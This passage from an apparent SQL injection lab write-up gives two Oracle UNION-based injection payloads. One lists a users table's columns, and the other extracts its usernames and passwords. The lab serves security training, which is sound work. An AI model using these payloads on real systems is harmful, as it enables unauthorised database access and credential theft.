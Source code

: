 5. Let's now retrieve the column names using the payload
   `' UNION SELECT 'A',COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='USERS_TXEXMO'`
![image](./Attachments/SQL-Lab10-6.png)

6. Now that we know the username and password column's name, Let's retrieve the usernames and password. Payload: `' UNION SELECT USERNAME_MCTKCL,PASSWORD_HUXNXI FROM USERS_TXEXMO`
![image](./Attachments/SQL-Lab10-7.png)